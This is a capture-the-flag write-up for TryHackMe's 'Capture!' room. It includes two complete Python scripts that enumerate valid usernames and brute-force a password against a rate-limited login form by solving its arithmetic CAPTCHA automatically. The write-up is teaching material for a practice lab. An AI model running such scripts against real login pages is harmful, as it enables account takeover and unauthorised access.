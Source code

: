 ```yaml
---
layout: post
title: Writeup for TryHackMe's "Capture!" Room
subtitle: By Anthony J. Saab
tags: ["https://tryhackme.com/room/capture"]
comments: false
---
```


# 0 - Introduction
This is a free room, created by toxicat0r and published on  May 5th, 2023.

Difficulty: Easy
# 1 - Context
## 1a - Given information

"SecureSolaCoders has once again developed a web application. They were tired of hackers enumerating and exploiting their previous login form. They thought a Web Application Firewall (WAF) was too overkill and unnecessary, so they developed their own rate limiter and modified the code slightly.
Before we start, download the required files by pressing the Download Task Files button."

The required file is a ZIP archive containing two files: usernames.txt & passwords.txt

## 1b - What we know so far
- No WAF
- Rate limiter exists
- Bruteforce is required (implied)

# 2 - Inspecting the website
## 2a - Screenshots
### Front Page before doing anything
![Target Website's Front Page](https://i.imgur.com/fSQMOpQ.png)

### Trying a random login attempt
![Trying a random login attempt](https://i.imgur.com/LvLWcdg.png)

### Spamming wrong credentials to trigger rate-limiter
![Spamming wrong credentials to trigger rate-limiter](https://i.imgur.com/3999W72.png)

## 2b - What we know so far
- Website's front page redirects to login page
- Login page will disclose whether a username exists in the database
- Rate-limiter trigger after around 10 wrong attempts
- Rate-limiter cannot be bypassed by clearing cookies, changing user-agent or using a different source IP
- The CAPTCHA is a math problem returned as text
- The CAPTCHA always has two operands and one of the following operators: +, - or *

# 3 - Enumerating correct usernames
## 3a - Python code used
```python
#!/usr/bin/python3

"""
Use this code shortly after having triggered the rate-limiter manually.
Replace the MACHINE_IP with the IP of your target machine's IP.
"""

import re
import requests
import sys

def main(MACHINE_IP):
    # Loads usernames from task files
    nhu = open("usernames.txt")
    users = nhu.read().split("\n")
    nhu.close()

    # Garbage request sent to collect the CAPTCHA challenge
    data = {
        'username': 'test',
        'password': 'test',
        'captcha': '123',
    }
    response = requests.post(f'http://{MACHINE_IP}/login', data=data)

    for u in users:
        captcha_data = re.search(r"(\d*) (\W) (\d*) = \?", str(response.content)).groups()
        if captcha_data[1] == "+":
            captcha_result = int(captcha_data[0]) + int(captcha_data[2])
        elif captcha_data[1] == "-":
            captcha_result = int(captcha_data[0]) - int(captcha_data[2])
        elif captcha_data[1] == "*":
            captcha_result = int(captcha_data[0]) * int(captcha_data[2])
        data = {
            'username': str(u),
            'password': 'test',
            'captcha': str(captcha_result),
        }
        response = requests.post(f'http://{MACHINE_IP}/login', data=data)
        valid = not re.search(r'The user (.*?) does not exist', str(response.content))
        if valid:
            print(u)


if __name__ == "__main__":
    MACHINE_IP = sys.argv[1]
    main(MACHINE_IP)

```

## 3b - Output
![User enum Output](https://i.imgur.com/XBIxk1S.png)

# 4 - Finding correct password
## 4a - Error message for wrong password
![Error message for wrong password](https://i.imgur.com/wcklhMy.png)
## 4b - Python Code
```python
#!/usr/bin/python3

"""
Use this code shortly after having triggered the rate-limiter manually.
Example usage in terminal: ./password_bruteforce.py 10.10.229.208 john
This code and the passwords.txt should be located in the same directory
"""

import re
import requests
import sys

def main(MACHINE_IP, CORRECT_USERNAME):
    # Loads passwords from task files
    nhp = open("passwords.txt")
    passwords = nhp.read().split("\n")
    nhp.close()

    # Garbage request sent to collect the CAPTCHA challenge
    data = {
        'username': 'test',
        'password': 'test',
        'captcha': '123',
    }
    response = requests.post(f'http://{MACHINE_IP}/login', data=data)

    for p in passwords:
        captcha_data = re.search(r"(\d*) (\W) (\d*) = \?", str(response.content)).groups()
        if captcha_data[1] == "+":
            captcha_result = int(captcha_data[0]) + int(captcha_data[2])
        if captcha_data[1] == "-":
            captcha_result = int(captcha_data[0]) - int(captcha_data[2])
        if captcha_data[1] == "*":
            captcha_result = int(captcha_data[0]) * int(captcha_data[2])
        data = {
            'username': str(CORRECT_USERNAME),
            'password': str(p),
            'captcha': str(captcha_result),
        }
        response = requests.post(f'http://{MACHINE_IP}/login', data=data)
        valid = not re.search(r'Invalid password for user', str(response.content))
        if valid:
            print(p)
            exit(0)

if __name__ == "__main__":
    MACHINE_IP = sys.argv[1]
    CORRECT_USERNAME = sys.argv[2]
    main(MACHINE_IP, CORRECT_USERNAME)
```
## 4c - Output
![Password found!](https://i.imgur.com/wh56Tr1.png)

# 5 - The Flag!
![Flag](https://i.imgur.com/ZtkTmLT.png)
